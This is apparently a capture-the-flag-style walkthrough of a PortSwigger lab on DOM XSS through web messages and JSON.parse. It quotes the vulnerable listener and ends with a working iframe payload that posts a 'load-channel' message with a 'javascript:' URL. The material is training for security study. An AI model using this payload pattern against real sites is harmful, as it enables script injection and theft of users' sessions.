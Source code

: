 Title: DOM XSS using web messages and JSON.parse
Level: Practitioner
Desc: This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function.

# Walkthrough:
This function I can see on the we page.
```
 <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

We want to exploit upper function to make XSS in DOM. We need to get into "load-channel" in case structure, because this case gives access to iframe.src and we can use this to run malicious code.
So we need to forward to this function something like below:
```
window.postMessage(JSON.stringify({
  type: "load-channel",
  url: "https://example.com/player"
}), "*");

```
Complete code payload, which we need to send to the victim is like that:
```
<iframe src=https://0aab005403f0814e809612b000810072.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```
